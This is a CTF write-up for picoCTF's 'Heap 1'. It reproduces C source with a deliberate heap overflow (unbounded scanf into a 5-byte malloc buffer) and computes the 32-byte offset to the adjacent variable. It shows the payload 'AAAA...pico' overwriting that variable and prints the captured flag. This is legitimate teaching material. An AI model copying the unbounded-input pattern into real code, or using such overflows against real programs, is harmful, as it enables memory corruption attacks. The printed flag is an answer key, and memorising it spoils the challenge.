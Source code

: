 # Heap 1
#### Description:
Can you control your overflow?Download the binary [here](https://artifacts.picoctf.net/c_tethys/32/chall).Download the source [here](https://artifacts.picoctf.net/c_tethys/32/chall.c).

Contents of `chall.c` file: 
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64
// amount of memory allocated for input_data
#define INPUT_DATA_SIZE 5
// amount of memory allocated for safe_var
#define SAFE_VAR_SIZE 5

int num_allocs;
char *safe_var;
char *input_data;

void check_win() {
    if (!strcmp(safe_var, "pico")) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}

void print_menu() {
    printf("\n1. Print Heap:\t\t(print the current state of the heap)"
           "\n2. Write to buffer:\t(write to your own personal block of data "
           "on the heap)"
           "\n3. Print safe_var:\t(I'll even let you look at my variable on "
           "the heap, "
           "I'm confident it can't be modified)"
           "\n4. Print Flag:\t\t(Try to print the flag, good luck)"
           "\n5. Exit\n\nEnter your choice: ");
    fflush(stdout);
}

void init() {
    printf("\nWelcome to heap1!\n");
    printf(
        "I put my data on the heap so it should be safe from any tampering.\n");
    printf("Since my data isn't on the stack I'll even let you write whatever "
           "info you want to the heap, I already took care of using malloc for "
           "you.\n\n");
    fflush(stdout);
    input_data = malloc(INPUT_DATA_SIZE);
    strncpy(input_data, "pico", INPUT_DATA_SIZE);
    safe_var = malloc(SAFE_VAR_SIZE);
    strncpy(safe_var, "bico", SAFE_VAR_SIZE);
}

void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}

void print_heap() {
    printf("Heap State:\n");
    printf("+-------------+----------------+\n");
    printf("[*] Address   ->   Heap Data   \n");
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", safe_var, safe_var);
    printf("+-------------+----------------+\n");
    fflush(stdout);
}

int main(void) {

    // Setup
    init();
    print_heap();

    int choice;

    while (1) {
        print_menu();
	if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print safe_var
            printf("\n\nTake a look at my variable: safe_var = %s\n\n",
                   safe_var);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

Lets analyse the `check_win` function: 

```c
void check_win() {
    if (!strcmp(safe_var, "pico")) { // safe_var should be pico to get the flag
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}
```

We can see that `safe_var` is being compared with the string `pico`. Which means, we need to modify the variable `safe_var` to `pico` to get the flag. 
We can allocate memory on the heap using `malloc`. Lets, check the `init` function to pinpoint the vulnerability. 
```c
// INPUT_DATA_SIZE, SAFE_VAR_SIZE = 5 bytes
void init() {
    printf("\nWelcome to heap1!\n");
    printf(
        "I put my data on the heap so it should be safe from any tampering.\n");
    printf("Since my data isn't on the stack I'll even let you write whatever "
           "info you want to the heap, I already took care of using malloc for "
           "you.\n\n");
    fflush(stdout);
    input_data = malloc(INPUT_DATA_SIZE); // allocates 5 bytes on the heap
    strncpy(input_data, "pico", INPUT_DATA_SIZE); // copies pico onto the heap buffer
    safe_var = malloc(SAFE_VAR_SIZE); // allocates 5 bytes on the heap
    strncpy(safe_var, "bico", SAFE_VAR_SIZE); // copies bico onto the heap buffer
}
```

Here, if we exceed the heap buffer, while giving the input, we can overwrite the value of the `safe_var` variable. 

Now we need to find the offset between the input buffer and safe var. 

```
➜  ~/Documents/recruitment/haard_phase2/binex git:(main) ✗ nc tethys.picoctf.net 62455


Welcome to heap1!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data
+-------------+----------------+
[*]   0x5add894b12b0  ->   pico
+-------------+----------------+
[*]   0x5add894b12d0  ->   bico
+-------------+----------------+

1. Print Heap:		(print the current state of the heap)
2. Write to buffer:	(write to your own personal block of data on the heap)
3. Print safe_var:	(I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:		(Try to print the flag, good luck)
5. Exit
```

On running the program, we can see the heap state. `pico` is the value preassigned to our input buffer, which will be overwritten when we write to that buffer. 

Lets calculate the difference in memory location between the input buffer and `safe_var`.
```
0x5add894b12d0 - 0x5add894b12b0 = 0x20
0x20 = 32 
```

After 32 bytes, we will reach the `safe_var` variable, but we won't be able to overwrite it, so we need to send additional 4 bytes to overwrite the variable to `pico`.  

Lets do that: 
```
Enter your choice: 2
Data for buffer: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApico

1. Print Heap:		(print the current state of the heap)
2. Write to buffer:	(write to your own personal block of data on the heap)
3. Print safe_var:	(I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:		(Try to print the flag, good luck)
5. Exit

Enter your choice: 3


Take a look at my variable: safe_var = pico


1. Print Heap:		(print the current state of the heap)
2. Write to buffer:	(write to your own personal block of data on the heap)
3. Print safe_var:	(I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:		(Try to print the flag, good luck)
5. Exit

Enter your choice: 4

YOU WIN
picoCTF{starting_to_get_the_hang_e9fbcea5}
```

As we can see, the variable has been overwritten, and according to the `check_win` function, `safe_var` is now `pico`. 

flag: `picoCTF{starting_to_get_the_hang_e9fbcea5}`

Reference: 
https://ctf101.org/binary-exploitation/what-is-the-heap/

